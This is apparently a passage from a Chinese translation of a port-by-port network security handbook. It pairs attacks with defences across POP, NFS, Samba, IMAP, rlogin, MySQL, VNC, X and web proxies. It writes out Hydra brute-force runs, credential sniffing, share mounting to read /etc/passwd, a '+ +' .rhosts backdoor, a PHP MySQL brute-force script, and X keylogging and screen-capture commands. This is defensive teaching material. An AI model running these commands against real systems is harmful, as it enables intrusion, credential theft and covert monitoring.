如果 Web 应用程序仅依赖此 cookie 值，任何用户都可以编辑其 Web 浏览器的 cookie 文件（Mozilla 将其 cookie 存储在用户 .mozilla 目录下的 cookie.txt 中），并手动插入上述 cookie 值以发送给 Web 服务器。此外，恶意用户可以指示其 Web 浏览器发送一个 cookie，其值包含一个被设置为特权用户（如 “administrator”）名称的用户字段。

Cookie 并不是维护会话的唯一方法。Web 应用程序可以通过在 URL 中嵌入会话信息来维护状态：http://www.somecompanyexample.com/authenticated.cgi?user=john&sessionid=12345678。

### 防止会话劫持

以下步骤将有助于防止许多类型的会话劫持技术：

- 为成功认证的用户分配随机的会话 ID。
- 考虑在 cookie 中存储加密信息，以便终端用户无法对其进行篡改。
- 使用 SSL 传输所有 cookie 信息。

### 隐藏 HTML 元素

隐藏 HTML 元素是包含在 Web 表单中的静态值。这些值不会显示给终端用户。可以使用以下 HTML 代码来设置隐藏元素：

```html
<INPUT NAME="shippingcharges" TYPE=HIDDEN VALUE="5.25">
```

设计糟糕的 Web 应用程序信任隐藏的 HTML 标签，以便在终端用户的会话中传递信息。在这种情况下，恶意用户可能会下载 HTML 表单，并将上述 HTML 代码更改为：

```html
<INPUT NAME="shippingcharges" TYPE=HIDDEN VALUE="-99">
```

在提交修改后的表单后，`shippingcharges` 字段的值 -99 将被传递给易受攻击的 Web 应用程序。如果 Web 应用程序盲目接受这个值，且目标是一个电子商务网站，用户最终可能会在其信用卡上获得一笔信用额度！

### 不要信任隐藏 HTML 元素

Web 应用程序开发人员不应信任隐藏 HTML 元素的值。进行 Web 应用程序审查以确保隐藏 HTML 元素的值不被信任是一个好主意。

### 源代码注释

在 Web 应用程序的开发阶段，程序员通常会在 CGI 或 HTML 源代码中放置注释。这些注释有助于开发人员与同行分享细节。源代码注释可能包含关键信息，例如数据库服务器的密码。有时，在 Web 应用程序投入生产时，这些注释被忽略了：

```html
<!--
NOTE: Mike, please use the following username and password
to access the local mysql server: root, drdr3eminem
Comment placed by John at 12:15am, 2/12/2003
-->
```

### 审计源代码注释

定期审计源代码注释是一个好主意。使用 `grep` 和 `wget` 等工具在 Web 应用程序源码和 HTML 代码中寻找注释。

## Web 服务器漏洞

Apache 是当今最流行的 Web 服务器。多年来它一直相当安全。以下段落代表了一个近期的 Apache 漏洞。

- **Apache Web 服务器分块处理漏洞**：在 Apache Web 服务器处理分块编码数据的方式中发现了一个可远程利用的漏洞。该漏洞使得在 Apache 服务器上远程执行任意命令成为可能。更多详情可见 http://www.cert.org/advisories/CA-2002-17.html。

## POP2 (邮局协议 2): 109 (TCP)

POP2 是一种用于从邮箱服务器访问电子邮件的协议。

**暴力破解**：由于 POP2 认证使用用户名和密码对，因此该协议容易受到暴力破解攻击。

**嗅探**：由于 POP2 是明文协议，因此可以嗅探在网络上传输的 POP2 流量。

### 嗅探 POP2 流量

可以使用 Ettercap 等工具来嗅探 POP2 数据。在使用 -C 选项时，`ettercap` 命令会自动过滤并显示在网络上传输的 POP2 用户名和密码。

### 通过 SSH 隧道传输 POP2 流量

使用 SSH 的端口转发选项安全地隧道传输 POP2 流量：

```bash
ssh -L 109:127.0.0.1:109 username@pop2server.somecompanyexample.com
```

## POP3 (邮局协议 3): 110 (TCP)

POP3 是一种用于从邮箱服务器访问电子邮件的协议。

**暴力破解**：由于 POP3 认证使用用户名和密码对，因此该协议容易受到暴力破解攻击。

### 暴力破解 POP3

可以使用 Hydra 来暴力破解 POP3 账户：

```bash
[bash]$ hydra -L usernames.txt -P passwords.txt 10.0.0.1 pop3
Hydra v2.2 (c) 2002 by van Hauser / THC - use allowed only for
legal purposes.
Hydra is starting! [parallel tasks: 4, login tries: 16 (1:4/p:4)]
[110][pop3] login: root password: n4mr4t41550cut3
Hydra finished.
```

### 防止 POP3 暴力破解

请参阅 “对抗暴力破解攻击的通用防御措施”。

**嗅探**：由于 POP3 是明文协议，因此可以嗅探在网络上传输的 POP3 数据。

### 嗅探 POP3 密码

可以使用 Ettercap 等工具嗅探网络上的 POP3 用户名和密码：

```bash
[bash]$ ettercap -C -N -m
ettercap 0.6.7 (c) 2002 AL0R & NaGA
Your IP: 192.168.1.1 with MAC: 00:01:1A:32:AB:32 on Iface: eth0
Loading plugins... Done.
Resolving 1 hostnames...
* |========================================================>| 100.00 %
Press 'h' for help...
Sniffing (MAC based): ANY <--> ANY
```


```
TCP + UDP packets... (default)

Collecting passwords...

03:35:26 192.168.1.1:49565 <--> 10.0.0.1:110 pop3

USER: blanketman
PASS: b1ll13j34n
```

### 通过 SSH 隧道传输 POP3 流量

使用 SSH 的端口转发选项来安全地传输 POP3 流量：

```
ssh -L110:127.0.0.1:110 username@pop3server.somecompanyasanexample.com
```

### Portmapper: 111 (TCP)

基于 RPC（远程过程调用）的服务（如 NIS，网络信息服务）不监听静态端口。这些服务将它们的端口号注册到 Portmapper 中。

> 可以使用 **rpcinfo** 命令查询注册在 Portmapper 上的 RPC 服务：`rpcinfo -p hostname`。

**配置错误** NFS 是一种提供跨网络远程访问共享文件的协议。配置错误的 NFS 安装允许未经身份验证的用户访问存储关键或私有数据的网络共享。

### 查询并挂载远程 NFS 共享

使用 **showmount** 程序查询远程主机的 NFS 共享：

```
[bash]$ /usr/sbin/showmount --all sun1.somecompanyasanexample.com
All mount points on sun1.somecompanyasanexample.com:
all:/etc
```

在这个例子中，sun1.somecompanyasanexample.com 的配置错误，导致其 `/etc` 目录对所有人开放。攻击者可以挂载 `/etc` 目录：

```
[bash]$ mount -t NFS sun1.somecompanyasanexample.com:/etc /mnt/etc
```

现在，攻击者可以通过执行以下命令查看 sun1.somecompanyasanexample.com 的 `/etc/passwd` 文件：

```
cat /mnt/etc/passwd
```

### 拦截并加固 NFS

如果您的主机上运行着 NFS，请考虑以下建议：

- 如果不使用，请考虑关闭 NFS。
- 配置防火墙以拦截 NFS 流量。NFS 运行在 2049 端口。
- 编辑 `/etc/dfs/distab` 和 `/etc/exports`，确保没有将共享服务提供给未经授权的主机。

**软件漏洞** RPC 服务一直容易受到许多可能导致远程系统被攻破的漏洞影响。接下来的漏洞列举了几个 RPC 服务公告。

- **xdr_array 中的缓冲区溢出漏洞**：由于 `xdr_array()` RPC 存在缓冲区溢出漏洞，远程攻击者可以在目标主机上执行任意代码。更多信息请参阅 http://securityfocus.com/bid/5356。
- **xfsmd 中的远程命令执行漏洞**：此漏洞影响 SGI IRIX 实现。由于传递给 RPC 的参数未经过适当的过滤，导致可以嵌入诸如 ";", "&" 和 "|" 等元字符。这些参数随后被传递给 `popen()` 函数调用，使得攻击者能够在目标机器上执行命令。详情请参阅 http://securityfocus.com/bid/5075。
- **yppasswdd 中的缓冲区溢出漏洞**：在 yppasswdd 的实现中发现了一个由于边界检查不当而导致的缓冲区溢出漏洞。利用此漏洞可以在目标机器上以管理员权限执行命令。更多信息请参阅 http://securityfocus.com/bid/2763。
- **statd 中的远程格式化字符串漏洞**：此漏洞影响随各种 Linux 发行版一起分发的 rpc.statd 程序。由于 rpc.statd 无法对用于调用 `syslog()` 函数的用户输入数据进行适当的输入验证，恶意用户可以提供特制的数据从而在目标主机上执行。详情请见 http://securityfocus.com/bid/1480。

因此，如果您的主机运行任何 RPC 服务，请考虑以下建议：

- 许多发行版在安装时会启用各种 RPC 服务。请禁用不使用的 RPC 服务。
- 如果不需要 RPC 服务，请禁用 Portmapper 服务。
- 配置防火墙，不允许远程用户连接到 RPC 服务。

## NNTP (网络新闻传输协议): 119 (TCP)

NNTP 是一种用于分发、查询、检索和发布新闻文章的协议。

**暴力破解** 许多 NNTP 服务器不需要身份验证。然而，可以使用 Hydra 等暴力破解工具对需要身份验证的 NNTP 服务器进行破解。

### 暴力破解 NNTP

使用 Hydra 来暴力破解 NNTP 账户。以下是操作示例：

```
hydra -L usernames.txt -P passwords.txt 10.0.0.1 nntp
```

### 防止 NNTP 暴力破解

请参阅“针对暴力破解攻击的常见防御措施”。

**嗅探** 由于 NNTP 是一个明文协议，因此可以嗅探在网络上传输的 NNTP 数据。

### 嗅探 NNTP 身份验证数据

可以使用 Ettercap 等工具在网络中嗅探 NNTP 流量。以下是使用 Ettercap 捕获 NNTP 身份验证数据的方法：

```
ettercap -C -N -m
```

### 通过 SSH 隧道传输 NNTP

使用 SSH 安全地传输 NNTP 流量：

```
ssh username@remotenntpserver.somecompanyasanexample.com -L119:127.0.0.1:119
```

## Samba: 137 至 139 (TCP)

Samba 使用 SMB (Server Message Block) 协议在网络上共享文件和打印机。SMB 最常被 Microsoft Windows 操作系统使用。有关 Samba 项目的详情，请参阅 http://www.samba.org/。

**暴力破解** 由于 Samba 使用用户名和密码对进行身份验证，因此可以对用户账户进行暴力破解。

### 暴力破解 Samba

可以使用 Hydra 来暴力破解 SMB 身份验证：

```
[bash]$ hydra -L usernames.txt -P passwords.txt 10.0.0.1 smb
Reduced number of tasks to 1 (smb does not like parallel connections)
Hydra v2.2 (c) 2002 by van Hauser / THC - use allowed only for legal purposes.
Hydra is starting! [parallel tasks: 1, login tries: 2 (1:2/p:1)]
[139] [smb] login: joe password: 5h4k33l1s0und!
Hydra finished.
```

### 防止 Samba 暴力破解

请参阅“针对暴力破解攻击的常见防御措施”。

**嗅探** 在 Samba 身份验证期间，可以嗅探在网络上传输的密码哈希。一旦捕获了哈希，必须通过暴力破解来获取真实密码。

### 获取 Samba 密码哈希

可以使用 Ettercap 捕获身份验证期间在网络中发送的 Samba 哈希。例如，以下是运行 Ettercap 以收集网络中传输的 SMB 密码哈希的方法：

```
ettercap -C -N -m
```

可以使用 John the Ripper 等密码破解工具（可从 http://www.openwall.com/john/ 获取）来破解获取的哈希。

### 安全地传输 Samba 流量

请参阅“拦截并隧道化 Samba 流量”。

### Samba 配置错误

Samba 经常被错误配置为共享包含关键数据的文件系统。远程用户可以利用此类漏洞获取位于受害主机上的敏感系统文件。

### 枚举并挂载远程 Samba 共享

使用 Samba 的 `smbclient` 命令来查找远程系统导出的文件共享：

```
[bash]
$ smbclient -L smbserver -I 192.168.1.10 -U ''
added interface ip=192.168.1.1 bcast=192.168.1.255 nmask=255.255.255.0
Password: [enter]
Domain=[SOMECOMPANY] OS=[Unix] Server=[Samba 2.2.7]
```

| 共享名称 | 类型 | 注释 |
| :--- | :--- | :--- |
| IPC$ | IPC | IPC 服务 (.) |
| ADMIN$ | Disk | IPC 服务 (.) |
| etc | Disk | 配置文件 |

| 服务器 | 注释 |
| :--- | :--- |
| SMBSERVER | SomeCompanyAsAnExample |
| SAMBASERVER | |

| 工作组 | 主服务器 |
| :--- | :--- |
| SOMECOMPANY | WMASTER |

现在，由于上述服务器显然被错误配置为向全球提供 `/etc` 目录，可以使用以下挂载命令进行挂载：

```
mount -t smbfs -o username='' //192.168.1.10/etc /mnt/smbshare
```

挂载 `/etc` 共享后，入侵者可以抓取 `/etc/passwd` 文件，该文件将在其主机上的 `/mnt/smbshare/passwd` 路径下可用。

### 拦截并隧道化 Samba 流量

如果运行 Samba，请考虑以下建议：

- 配置防火墙以拦截 Samba 流量。
- 考虑使用 SSH 来隧道化 Samba 流量：
  `ssh username@remotesmbserver.somecompanyasanexample.com -L139:127.0.0.1:139`


## IMAP2/IMAP4 (Internet Message Access Protocol 2/4): 143 (TCP)

IMAP2/4 是一种用于从邮箱服务器访问电子邮件的电子邮件访问协议。其特点包括能够在远程位置存储电子邮件。

**暴力破解 (Brute-Forcing)** IMAP 身份验证容易受到暴力破解攻击。

### 暴力破解 IMAP

可以使用 Hydra 来暴力破解 IMAP。

```bash
[bash]$ hydra -L usernames.txt -P passwords.txt -s 143 192.168.1.1 imap
Hydra v2.2 (c) 2002 by van Hauser / THC - use allowed only for legal purposes.
Hydra is starting: [parallel tasks: 4, login tries: 4 (1:1/p:4)]
[143][imap] login: pardesi password: estd1948!!
Hydra finished.
```

### 防止 IMAP 暴力破解

请参阅 “Common Defenses Against Brute-Force Attacks（应对暴力破解攻击的通用防御措施）”。

**嗅探 (Sniffing)** 在网络上传输的 IMAP 流量是可以被嗅探的。

### 嗅探 IMAP 流量

可以使用 Ettercap 和 Ethereal 等网络嗅探工具来捕获网络上传输的 IMAP 数据。

### 安全替代方案

如果使用 IMAP，请考虑采取以下建议：

- 使用 SSH 隧道传输 IMAP 流量：
  `ssh -L143:127.0.0.1:143 username@imapserver.somecompanyasanexample.com`
- 使用 IMAPS 作为 IMAP 的安全替代方案。

## HTTPS (Secure Hypertext Transfer Protocol): 443 (TCP)

HTTPS 是基于 SSL (Secure Sockets Layer) 的 HTTP。HTTPS 使用 SSL 来建立并维护安全通道，从而在客户端和服务器之间提供加密通信。

可以使用命令行 `openssl` 工具连接到 HTTPS 服务器：

```
openssl s_client -connect:server_ipaddress:443
```

OpenSSL 可以在 **http://www.openssl.org/** 获取。

**软件漏洞 (Software Vulnerabilities)** 以下段落代表了一个近期的 OpenSSL 漏洞：

- **OpenSSL SSLv2 缓冲区溢出** OpenSSL 是 SSL 协议的一个开源实现。发现 0.9.6e 之前的 OpenSSL 版本包含一个缓冲区溢出漏洞，可能导致在服务器上执行任意代码。详情请参阅 **http://www.kb.cert.org/vuls/id/102795**。

## rexec: 512 (TCP)

`rexec` 命令可用于在远程主机上运行命令并显示其输出。由于 `rexec` 使用的机制与 `rlogin` 类似，请参阅接下来的 “rlogin: 513 (TCP)” 章节。

## rlogin: 513 (TCP)

`rlogin` 命令用于与远程主机建立终端会话。

**暴力破解 (Brute-forcing)** 由于 `rlogin` 的身份验证需要用户名和密码组合，因此可以使用 Hydra 等暴力破解工具。

**嗅探 (Sniffing)** rlogin 服务使用明文协议。可以使用 Ettercap 或 Ethereal 等网络嗅探工具嗅探网络上的 rlogin 流量。

**rlogin 配置错误** 为了实现无密码登录，用户可能需要在其主目录下放置一个名为 `.rhosts` 的文件，内容如下：

```
mukumouse.somecompanysanasexample.com jack
```

这将允许来自 mukumouse.somecompanysanasexample.com 的用户 jack 在放置上述 `.rhosts` 文件的主机上无需密码即可 rlogin 进入其账户。

### .rhosts 配置错误

考虑一个用户主目录下的 `.rhosts` 文件，内容如下：

```
+ +
```

这样的文件将允许任何主机上的任何用户无需密码即可 rlogin 进入该用户账户。

> 在远程账户被攻破后，入侵者可能会在受害者的主目录下放置一个内容为 “+ +” 的 .rhosts 文件。这使得入侵者能够持续访问受害者的账户。此外，由于 .rhosts 文件以点号开头，当受害者用户使用 `ls` 命令列出目录时，该文件不会显示（除非用户在 `ls` 命令中指定了 `-a` 标志）。

### 禁用 rlogin 并考虑替代方案

如果运行 rlogin 服务，请考虑以下建议：

- 通过在 inetd.conf 文件中注释掉相应行来禁用 rsh、rlogin 和 rexec 服务。
- 考虑使用 SSH 作为安全替代方案。

## rsh: 514 (TCP)

`rsh` 命令用于在远程机器上执行命令。由于 `rsh` 使用的机制与 rlogin 类似，请参阅前文的 “rlogin: 513 (TCP)” 章节。

## NNTPS (Secure Network News Transfer Protocol): 563 (TCP)

NNTPS 是基于 SSL (Secure Sockets Layer) 的 NNTP。NNTPS 使用 SSL 来建立并维护安全通道，从而在客户端和服务器之间提供加密通信。

可以使用命令行 `openssl` 工具连接到 NNTPS 服务器：

```
openssl s_client -connect:192.168.1.1:563
```

OpenSSL 可以在 http://www.openssl.org/ 获取。
更多信息请参阅 “NNTP (Network News Transfer Protocol): 119 (TCP)”。

## IMAPS (Secure Internet Message Access Protocol): 993 (TCP)

IMAPS 是基于 SSL (Secure Sockets Layer) 的 IMAP。IMAPS 使用 SSL 来建立并维护安全通道，从而在客户端和服务器之间提供加密通信。

可以使用命令行 `openssl` 工具连接到 IMAPS 服务器：

```
openssl s_client -connect:192.168.1.1:993
```

OpenSSL 可以在 http://www.openssl.org/ 获取。
更多信息请参阅之前的 “IMAP2/IMAP4 (Internet Message Access Protocol 2/4): 143 (TCP)” 章节。

## POP3S (Secure Post Office Protocol 3): 995 (TCP)

POP3S 是基于 SSL (Secure Sockets Layer) 的 POP3。POP3S 使用 SSL 来建立并维护安全通道，从而在客户端和服务器之间提供加密通信。

可以使用命令行 `openssl` 工具连接到 POP3S 服务器以获取 banner 信息：

```
openssl s_client -connect:192.168.1.1:995
```

OpenSSL 可以在 http://www.openssl.org/ 获取。
更多信息请参阅之前的 “POP3 (Post Office Protocol 3): 110 (TCP)” 章节。

## NFS: 2049 (TCP and UDP)

请参阅之前的 “Portmapper: 111 (TCP)” 章节。

## MySQL: 3306 (TCP)

MySQL 是一个流行的开源数据库软件包。可以通过 http://www.mysql.com/ 获取。

**暴力破解 (Brute-Forcing)** 由于 MySQL 使用用户名和密码对进行身份验证，因此可以尝试对其进行暴力破解攻击。

### 暴力破解 MySQL

可以使用以下 PHP 脚本来暴力破解 MySQL 服务器：

```php
<?php
/*Author: Nitesh Dhanjani [ hacknotes@dhanjani.com ]
This script attempts a brute-force attack on MySQL servers. Please make sure $usernamefile and $passwordfile are set to filenames containing usernames and passwords to attempt.*/

$usernamefile="usernames.txt";
$passwordfile="passwords.txt";

if($argc != 2)
{
    print "Usage: $argv[0] hostname\n";
    exit();
}

$ufilehandle=@fopen($usernamefile,"r");
$pfilehandle=@fopen($passwordfile,"r");

if((!$ufilehandle) || (!$pfilehandle))
{
    print("Could not open username or password file.\n");
    exit();
}

while($username=@fscanf($ufilehandle,"%s\n"))
{
    while($password=@fscanf($pfilehandle,"%s\n"))
    {
        if(@mysql_connect($argv[1],$username[0],$password[0]))
            print("SUCCESS!: $username[0], $password[0]\n");
    }
}
print("DONE\n");
?>
```

我们将上述文件命名为 `mysqlbrute.php`。以下是该脚本的使用示例：

```bash
$ php -f mysqlbrute.php mysql.somecompanysanexample.com
SUCCESS!: root, sqlMyP45!
DONE
```

PHP 编程语言解释器可以从 **http://www.php.net/** 下载。

### 防止 MySQL 暴力破解

请参阅 “Common Defenses Against Brute-Force Attacks（应对暴力破解攻击的通用防御措施）”。

**嗅探 (Sniffing)** MySQL 使用明文协议在客户端和服务器之间建立连接。因此，网络分段上的用户可以嗅探 MySQL 会话。

### 嗅探 MySQL 流量

可以使用 Ettercap 捕获身份验证期间在网络上传输的 MySQL 哈希值（图 4-1）。此外，由于 MySQL 使用明文机制传输数据，可以使用 Ettercap 或 Ethereal 等网络分析器监控用户会话。Ethereal 可以从 http://www.ethereal.com/ 下载。


图 4-1. Ethereal 可用于捕获 MySQL 会话。

### 封锁和加固 MySQL

如果您在主机上运行 MySQL 服务器，请考虑以下建议：

- 配置防火墙以封锁对 MySQL 服务器的入站连接。在大多数情况下，仅需要本地 MySQL 访问。
- 加固 MySQL 配置，不接受来自远程用户的连接。详细指令请参阅 http://www.mysql.com/documentation/mysql/bychapter/manual_MySQL_Database_Administration.html#Privilege_system。

## VNC (Virtual Network Computing): 5800+, 5900+ (TCP)

VNC 是一个远程控制软件包，允许用户访问远程主机的桌面。VNC 是免费软件，可以从 http://www.realvnc.com/ 下载。

**暴力破解 (Brute-Forcing)** VNC 实例仅需要密码进行身份验证。因此，VNC 账户可以通过远程暴力破解。

### 暴力破解 VNC

可以使用 vncrack 工具尝试对 VNC 进行暴力破解攻击，该工具可在 http://www.phenoelit.de/vncrack/ 获取。

```bash
[bash]$ vncrack -h 10.0.0.1 -w passwords.txt
VNCrack - by Phenoelit (http://www.phenoelit.de/)
```


```
$Revision: 1.17 $

>>>>>>>>>>>>>>

Password: test123
```

此外，可以通过暴力破解包含 VNC 密码哈希的 VNC 用户 `~/.vnc/passwd` 文件：

```
[bash]$ vncrack -C ~/.vnc/passwd
VNC password: test123
```

## 防止 VNC 暴力破解

请参阅 “防止暴力破解攻击的常见防御措施”。

**嗅探（Sniffing）** 可以嗅探在网络上传输的 VNC 密码哈希。一旦获取了密码哈希，必须通过暴力破解来揭示真实密码。

## 嗅探并破解 VNC 密码

使用 Ettercap 获取服务器挑战值（challenge）和客户端响应（response）哈希：

```
[bash]# ettercap -C -m -N

ettercap 0.6.9 (c) 2002 ALoR & NaGA

Your IP: 192.168.1.1 with MAC: 00:30:23:C1:00:00 on Iface: eth0

Loading plugins... Done.
Building host list for netmask 255.255.255.0, please wait...

Resolving 1 hostnames...

* |===================================================>| 100.00 %

Press 'h' for help...

Sniffing (MAC based): ANY <--> ANY

TCP + UDP packets... (default)

Collecting passwords...

10:04:28 192.168.1.1:6612 <--> 10.0.0.1:5901 VNC
```

```
USER: On display :0
PASS:
```

```
Server Challenge: 612b8f9e6dfe71ba27aff77ff99c106 Client 3DES:
4e2568a12e5e7825addbddff4d5190fd6
```

现在，使用之前讨论过的 `vncrack` 工具来破解获取的哈希：

```
[bash]$ vncrack -v -c 612b8f9e6dfe71ba27aff77ff99c106 -r 4e2568a12e5e7825addbddff4d5190fd6 -w passwords.txt
VNCrack - by Phenoelit (http://www.phenoelit.de/)
$Revision: 1.17 $
Challenge : 612b8f9e6dfe71ba27aff77ff99c106
Response : 4e2568a12e5e7825addbddff4d5190fd6

>>>>>>>>>>>>>>>>>
Password: test123
```

VNC 查看器（viewer）与 VNC 服务器之间的活动流量未加密，可被网络段中的人员嗅探。然而，目前尚不存在已知工具能够解密在网络上传输的活动 VNC 流量。


## 通过 SSH 安全地隧道传输 VNC 流量

使用 SSH 来安全地隧道传输 VNC 流量。详情请参阅 **http://www.uk.research.ant.com/vnc/sshvnc.html**。

**VNC 配置错误** VNC 身份验证可以被设置为空密码。许多用户选择设置空密码，这使得入侵者能够完全控制其桌面。

**软件漏洞** 已知 VNC 软件存在一些漏洞。以下是近期公布的一些漏洞列表。

- **TightVNC 服务器身份验证 Cookie 可预测性漏洞** `vncserver` 程序本身是一个 PERL 脚本，负责生成随机的 X 服务器身份验证 Cookie。在 TightVNC 的 `vncserver` 实现中发现了一个漏洞，导致其生成的身份验证 Cookie 是可预测的。这种情况使得攻击者有可能预测与远程 VNC 服务器进行身份验证所需的响应。详见 http://securityfocus.com/bid/6905。

- **TightVNC 重复挑战重放攻击漏洞** VNC 身份验证机制使用挑战-响应方案来成功验证用户。这导致 VNC 客户端在每次用户验证时发送不同的密码哈希。在 TightVNC 软件中发现的一个漏洞导致 VNC 服务器请求类似的挑战-响应。这使得网络段上的恶意用户能够重复利用之前获取的密码哈希来伪装成另一个用户进行验证。更多信息请访问 http://securityfocus.com/bid/5296。

## X: 6000 到 6063 (TCP)

X 窗口系统（X window system）是一种在各种操作系统上使用的网络透明窗口系统。它最常用于为 Unix 和 Linux 操作系统提供图形化前端。

**X 配置错误** `xhost` 程序用于向允许连接到 X 服务器的主机列表中添加和删除主机名。这提供了基本的隐私控制和安全性。

## 利用配置错误的 X 服务器

假设 10.0.0.1 上的一个用户使用 `xhost` 允许来自 192.168.1.3 的连接：

```
[bash]$ xhost +192.168.1.3
192.168.1.3 being added to access control list
```

现在，任何在 192.168.1.3 上拥有账户的用户都可以启动一个 X 程序，并将其显示在运行于 10.0.0.1 的 X 服务器上。然而，以下命令将导致 X 服务器允许 *任何* 主机连接：

```
[bash]$ xhost +
access control disabled, clients can connect from any host.
```

考虑 192.168.1.3 上的一个恶意用户执行以下命令：

```
xwd -display 10.0.0.1:0 -root > screenshot.xwd
```

该命令将创建一个名为 screenshot.xwd 的图像文件，其中包含 10.0.0.1 用户 X 会话的屏幕截图（见图 4-2）。可以使用 `xwud` 命令查看 screenshot.xwd 文件：

```
xwud -in screenshot.xwd
```



### 图 4-2. 由 xwd 工具捕获的受害者 X 会话

`xscan` 命令可用于记录已执行 `xhost` 命令的远程主机的击键：

```
[bash]$ xscan 10.0.0.1
Scanning hostname 10.0.0.1 ...
Connecting to 10.0.0.1 (10.0.0.1) on port 6000...
Connected.
Host 10.0.0.1 is running X.
Starting keyboard logging of host 10.0.0.1:0.0 to file
KEYLOG10.0.0.1:0.0...
```

此 `xscan` 命令将导致 10.0.0.1 用户的所有击键被记录到文件 KEYLOG10.0.0.1:0.0 中。您可以从 http://packetstormsecurity.org/ 获取 xscan。

还有许多其他工具可供恶意用户利用执行了 `xhost` 命令（允许其他主机连接）的用户。以下是其中一些工具的列表：

- `xwatchwin` 实时显示远程用户 X 会话的任何窗口。xwatchwin 工具可在 http://packetstormsecurity.org/ 下载。
- `xremote` 允许您向远程 X 会话发送鼠标和键盘事件。该工具可从 `http://www.info.abo.fi/~chakie/xremote/` 下载。
- `xkey` 记录远程用户 X 会话的击键，类似于 `xscan`。可在 `http://packetstormsecurity.org/` 获取。

## 拦截与隧道传输 X

对于运行 X 服务器的用户，建议采取以下措施：

- 在防火墙上拦截 6000 到 6063 端口。这将禁止外部主机连接到内部 X 服务器。
- 使用 SSH 安全地隧道传输 X 流量：

```
ssh -X username@remotexserver.somecompanyasanexample.com
```

## Web 代理: (8000+ TCP)

Web 代理顾名思义，用于代理 HTTP 和 HTTPS 流量。

**Web 代理配置错误** Web 代理的配置错误可以通过此处描述的方法被利用。我们将使用 `desproxy` 命令行工具，它利用 HTTP/1.1 支持的 CONNECT 方法通过 Web 代理建立 TCP 连接。它可从 `http://desproxy.sourceforge.net/` 下载。

## 代理攻击

配置错误的 Web 代理通常允许入侵者代理攻击。考虑以下 `desproxy` 命令：

```
desproxy 10.0.0.1 23 192.168.1.1 8000 2300
```

执行此命令后，如果入侵者 telnet 到其自身主机 (127.0.0.1) 的 2300 端口，他/她将通过监听 8000 端口的漏洞 Web 代理 (192.168.1.1) 连接到 10.0.0.1 的 telnet 端口 (23)。由于受害主机仅记录来自 Web 代理 IP 地址 192.168.1.1 的入站连接，攻击者将成功利用 Web 代理来代理其攻击。

> 如果入侵者已经控制了内部网络中的一台主机，而该网络不允许出站 TCP 连接，入侵者可以使用 `desproxy` 通过可用的 Web 代理在外部主机上建立 TCP 连接。

## 反向代理攻击

通常，配置错误的 Web 代理可用于建立与位于 Web 代理主机可访问的内部网络中的主机的连接。在前面的示例中，假设 10.0.0.1 是一个仅能从 Web 代理 (192.168.1.1) 所在内部网络访问的主机 IP 地址。那么该示例中的命令将允许攻击者通过漏洞 Web 代理连接到内部主机的 telnet 端口。

## 拦截入站连接

配置防火墙规则，拦截指向您组织 Web 代理的入站连接。

## 应用程序漏洞

应用程序也存在漏洞，可能导致运行客户端应用程序的主机被远程攻破。然而，此类漏洞很难远程利用。虽然无法列出所有已知可远程利用的应用程序，但这些漏洞记录了一些容易受到远程攻击的知名应用程序。

## tcpdump 中的畸形 NFS 和 BGP 数据包缓冲区溢出漏洞

`tcpdump` 程序是最广泛使用的命令行数据包分析工具。在 `tcpdump` 处理畸形 NFS（网络文件系统）数据包时发现了一个缓冲区溢出漏洞。该漏洞使得在网络上故意发送恶意 NFS 数据包时，可以在运行 `tcpdump` 的主机上执行任意指令。请参阅 http://securityfocus.com/bid/4890。

另一个 `tcpdump` 漏洞被发现是由于对畸形 BGP 数据包处理不当引起的。更多信息请参阅 http://securityfocus.com/bid/6213。

## Netscape/Mozilla POP3 邮件处理程序整数溢出漏洞

当发送恶意数据时，此漏洞会导致 Netscape/Mozilla 浏览器的邮件客户端出现缓冲区溢出情况。

由 POP3 服务器提供。如果攻击者控制了 POP3 服务器，他或她可以让 POP3 服务器响应恶意数据，从而在 Netscape/Mozilla 用户的主机上执行任意命令。更多信息请访问 http://securityfocus.com/bid/6254。

## BitchX 远程堆损坏漏洞

BitchX 是一款流行的 IRC（互联网中继聊天）客户端。当向 BitchX 客户端提供一个很长的域名时，会出现内存损坏情况。恶意 IRC 服务器可以利用该漏洞在运行 BitchX 的主机上执行命令。关于此漏洞的信息可见 http://securityfocus.com/bid/7096。

## PGP4Pine 长消息行缓冲区溢出漏洞

PGP4Pine 为 Pine 电子邮件客户端增加了 PGP 支持。在 PGP4Pine 中发现了一个漏洞，该漏洞是由于对包含 PGP 数据的电子邮件缺乏足够的边界检查而引起的。攻击者可以发送精心构造的电子邮件来利用此漏洞，从而在运行 PGP4Pine 的主机上执行任意命令。请参阅网站 http://securityfocus.com/bid/7071 获取更多信息。

## 防止应用程序漏洞利用

为了最大限度地降低对应用程序漏洞的敏感性，建议采取以下措施：

- 及时更新软件补丁。
- 订阅漏洞监控列表，例如 Bugtraq。（访问 http://securityfocus.com/cgi-bin/sfone/subscribe.pl 获取更多信息。请参阅本书参考中心（Reference Center）的“在线资源”部分，以获取指向许多其他安全资源的指引。）

## NESSUS

